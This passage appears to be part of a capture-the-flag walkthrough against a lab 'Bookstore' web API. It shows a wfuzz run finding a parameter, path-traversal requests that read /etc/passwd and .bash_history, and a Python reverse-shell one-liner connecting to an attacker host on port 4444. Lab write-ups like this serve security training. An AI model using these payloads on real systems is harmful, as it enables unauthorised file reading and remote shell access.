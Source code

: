 <h3>wfuzz</h3>

```bash
:~/Bookstore#  wfuzz -u http://TargetIP:5000/api/v1/resources/books\?FUZZ\=../../../../../../../etc/passwd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,503
...
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://TargetIP:5000/api/v1/resources/books?FUZZ=../../../../../../../etc/passwd
Total requests: 218275

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                               
===================================================================

000000391:   200        30 L     38 W     1555 Ch     "show"                                                                
000000482:   200        1 L      1 W      3 Ch        "author"                                                              
000000523:   200        1 L      1 W      3 Ch        "id"                                                                  
000011399:   200        1 L      1 W      3 Ch        "published"                                                           
000049999:   404        1 L      8 W      66 Ch       "nmap-services"         
```

<br>

```bash
http://TargetIP:5000/api/v1/resources/books?show=../../../../../../../etc/passwd
```

<img width="938" height="151" alt="image" src="https://github.com/user-attachments/assets/9952e294-45fe-4940-8464-5c1081f61032" />

```bash
http://10.10.31.71:5000/api/v1/resources/books?show=.bash_history
```

<img width="938" height="155" alt="image" src="https://github.com/user-attachments/assets/d8888097-9261-431b-bd46-d77e4db8e43c" />

<p>123-321-135</p>

<img width="930" height="343" alt="image" src="https://github.com/user-attachments/assets/4a84a11c-de95-4da2-b38d-9510f64342e6" />

<img width="942" height="269" alt="image" src="https://github.com/user-attachments/assets/4cedc25f-9325-4ba3-8723-32f43141bff5" />

```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("AttackIP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
